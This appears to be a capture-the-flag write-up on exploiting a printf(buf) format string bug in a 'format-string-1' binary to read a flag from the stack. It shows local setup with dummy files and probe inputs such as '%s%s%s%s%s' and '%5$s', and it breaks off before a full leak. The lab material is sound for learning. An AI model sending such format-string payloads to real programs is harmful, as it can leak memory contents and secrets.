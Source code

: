 The goal is to **read from the stack** the content of `char flag[64]` by exploiting the `printf(buf)` vulnerability.

In local setup:

```bash
$ chmod u+x format-string-1     # executable permission
```

Defines the files that the `format-string-1` open.

```bash
$ python3 -c 'print("A"*8, end="")' > secret-menu-item-1.txt       # AAAAAAAA
$ python3 -c 'print("B"*8, end="")' > secret-menu-item-2.txt       # BBBBBBBB
$ python3 -c 'print("flag{th1s_1s_ap3zz1}", end="")' > flag.txt    # flag{th1s_1s_ap3zz1}
```

The variables on the stack are:

- `buf[1024]`
- `secret2[64]`
- `flag[64]`
- `secret1[64]`

## Local Format String Exploitation

```bash
$ ./format-string-1 
Give me your order and I'll read it back to you:
ap3zzi
Here's your order: ap3zzi
Bye!
```

```bash
$ ./format-string-1
Give me your order and I'll read it back to you:
%s
Here's your order: Here's your order:

Bye!
```

```bash
$ python3 -c 'print("%s%s%s%s%s", end="")' | ./format-string-1
Give me your order and I'll read it back to you:
Here's your order: Here's your order: (null)(null)%s%s%s%s%s

Bye!
```

Finding `buf` on the stack:

```bash
$ ./format-string-1
Give me your order and I'll read it back to you:
%5$s
Here's your order: %5$s

Bye!
```
